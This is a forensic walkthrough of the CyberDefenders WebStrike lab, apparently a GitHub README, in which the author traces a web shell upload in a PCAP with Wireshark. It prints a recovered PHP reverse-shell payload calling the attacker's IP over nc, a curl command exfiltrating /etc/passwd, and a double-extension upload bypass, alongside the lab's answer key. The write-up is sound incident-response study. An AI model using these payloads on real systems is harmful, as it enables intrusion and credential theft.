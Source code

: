 # WebStrike - Lab 1: Investigating a Suspicious File Upload

A forensic walkthrough of malicious web activity captured via PCAP, analyzed using Wireshark to identify attacker behavior, uncover vulnerabilities, and determine the scope of unauthorized access.


## Demo Video


**Full Video Walkthrough**: 

[Click here to watch on YouTube](https://youtu.be/c0VsVmQ7IYs)



## Lab Scenario

A suspicious file was discovered on a company web server. The Development team flagged the anomaly, and a PCAP file of the relevant network traffic was captured. Your task: trace the attacker's activity, understand how the file was uploaded, and determine what (if anything) was exfiltrated.


## Tools Used

- **Wireshark** (for full traffic analysis)
- **IP Geolocation** services
- **PCAP** file provided via Cyber Defenders
- Markdown and screenshots for documentation

---

## Summary of Findings

| Question | Answer |
|------------|-----------|
| **1. City of attack origin** | Tianjin |
| **2. Attacker's User-Agent** | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` |
| **3. Name of malicious web shell** | `image.jpg.php` |
| **4. Upload directory** | `/reviews/uploads/` |
| **5. Outbound communication port** | `8080` |
| **6. File targeted for exfiltration** | `/etc/passwd` |

---

## Walkthrough

### 1. Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?

- Used **Wireshark** to analyze IPv4 endpoints  
  ![Endpoints in Wireshark](./images/endpoints-view.png)

- Identified `117.11.88.124` as external attacker IP  
- Verified geolocation using [ipgeolocation.io](https://ipgeolocation.io)  
  ![GeoIP Lookup Screenshot](./images/ip-geo.png)
- The attack originated from Tianjin, China
- **Answer** - Tianjin

---

### 2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

- Followed the HTTP stream from the attacker:
  ![HTTP Stream](./images/user-agent-stream.png)

- Revealed full User-Agent:  
  `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
- **Answer** - `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
---

### 3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

- Applied filter:  
  ```wireshark
  ip.src == 117.11.88.124 and http.request.method == "POST"
- Two upload attempts observed:
  - First failed: `image.php`
  - Second succeeded: `image.jpg.php`
    ![Successful Upload](./images/upload-success.png)
- The attacker successfully bypassed the server's validation by appending .jpg to the filename
- **Answer** - image.jpg.php
---

### 4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

- File was successfully uploaded via `upload.php`
- Reviewed the server's HTTP response behavior
- Server returned `301 Moved Permanently`, redirecting to `/reviews/uploads/`
  ![301 Redirect](./images/301.png)
- Followed this redirect, `image.jpg.php` was accessible at that path
- The website stores uploaded files in the `/reviews/uploads/` directory
- **Answer** - `/reviews/uploads/`
---

### 5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

- Extracted PHP payload:
  ```php
  <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
- Indicates outbound connection to attacker on port 8080
- **Answer** 8080
---

### 6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

- Used Wireshark filter:
  ```wireshark
  tcp.port == 8080 and ip.src == 24.49.63.79
- Found `curl -X POST -d /etc/passwd http://117.11.88.124:443/` in the TCP stream
- The attacker was attempting to exfiltrate `/etc/passwd`
- **Answer** - `passwd`
---

## Lessons Learned

- Importance of proper file validation on upload endpoints
- How attackers use filename obfuscation to bypass filters
- Value of network traffic inspection during incident response
- How reverse shells exploit outbound connections
- Role of User-Agent and IP analysis in filtering and threat intel
---

## Key Takeaways

- Developed comfort navigating raw PCAPs in Wireshark to track attacker behavior
- Gained hands-on experience identifying file upload vulnerabilities and reverse shell tactics
- Practiced translating technical findings into IR-style documentation with real-world relevance


## References

- [CyberDefenders – WebStrike Lab](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)
- [Wireshark](https://www.wireshark.org/)
- [ipgeolocation.io](https://ipgeolocation.io/)

